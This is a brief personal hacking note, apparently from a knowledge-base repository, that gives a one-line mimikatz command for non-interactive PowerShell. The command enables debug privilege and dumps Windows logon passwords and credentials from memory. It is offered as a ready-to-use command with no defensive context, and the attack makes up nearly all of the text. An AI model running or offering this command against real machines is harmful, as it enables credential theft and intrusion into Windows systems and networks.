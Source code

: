 # mimikatz all in one command for non-interactive powershell
```
.\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
```

# References
- [20221003151089](/zet/20221003151089/README.md) mimikatz
- ~/kb/hacking/windows/mimikatz.md

Tags:
    #assorted #hacking #windows #mimikatz
